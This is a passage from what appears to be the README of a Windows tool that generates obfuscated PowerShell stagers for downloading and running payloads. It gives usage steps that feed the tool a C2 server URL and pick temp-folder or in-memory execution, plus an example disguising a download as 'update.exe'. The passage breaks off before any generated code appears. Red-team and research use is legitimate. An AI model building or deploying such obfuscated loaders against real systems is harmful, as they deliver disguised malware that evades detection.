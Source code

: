 
3. **Generated output** will be saved to your user profile folder with a timestamp

### Advanced Usage

#### For Penetration Testing
```cmd
# Generate obfuscated payload for red team exercises
PowerShellObfuscator.exe
# Enter: https://your-c2-server.com/payload.exe
# Enter: payload.exe
# Choose: 1 (temp folder execution)
```

#### For Security Research
```cmd
# Generate in-memory execution for PowerShell scripts
PowerShellObfuscator.exe
# Enter: https://github.com/raw/legitimate-script.ps1
# Enter: research.ps1
# Choose: 2 (in-memory execution)
```

## 📝 Examples

### Example 1: Basic File Download
**Input:**
```
URL: https://example.com/update.exe
Filename: update.exe
Method: Temp folder execution
```

**Generated Output:**
```powershell
```